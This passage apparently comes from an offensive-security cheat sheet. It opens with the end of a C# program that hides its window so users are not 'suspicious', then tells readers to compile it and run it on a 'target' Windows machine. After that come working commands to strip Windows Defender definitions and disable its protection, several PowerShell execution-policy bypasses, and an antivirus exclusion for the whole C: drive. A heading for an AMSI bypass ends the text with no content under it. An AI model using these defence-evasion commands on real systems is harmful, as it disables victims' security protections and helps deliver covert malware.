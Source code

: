          
         //restrictig service to create a gui which may make users suspicious thats why disabling it
          procInfo.CreateNoWindow = true;
          //starting the proces
          proc.StartInfo = procInfo;
          proc.Start();

                               
        }
    }
}

  
  
  .......................
  
  compile this with  
  
  > mcs filename.cs
  
  now transfer the exeutable to target windows and make it execute somehow :)))
  









#### Disable Windows defender

 > "c:\Program Files\Windows Defender\mpcmdrun.exe" -RemoveDefinitions -All Set-MpPreference -DisableIOAVProtection $true

#### POwershell execution policy bypass



> powershell -ep bypass

> function Disable-ExecutionPolicy {($ctx = $executioncontext.gettype().getfield("_context","nonpublic,instance").getvalue( $executioncontext)).gettype().getfield("_authorizationManager","nonpublic,instance").setvalue($ctx, (new-object System.Management.Automation.AuthorizationManager "Microsoft.PowerShell"))}  Disable-ExecutionPolicy  


> PowerShell.exe -ExecutionPolicy Bypass -File .runme.ps1


> PowerShell.exe -ExecutionPolicy UnRestricted -File .runme.ps1






####  Excluding C directory from antivirus scan as a safe side
 
 > powershell.exe
 > Add-MpPreference -ExclusionPath "c:\"
 
#### AMSI bypass in powershell


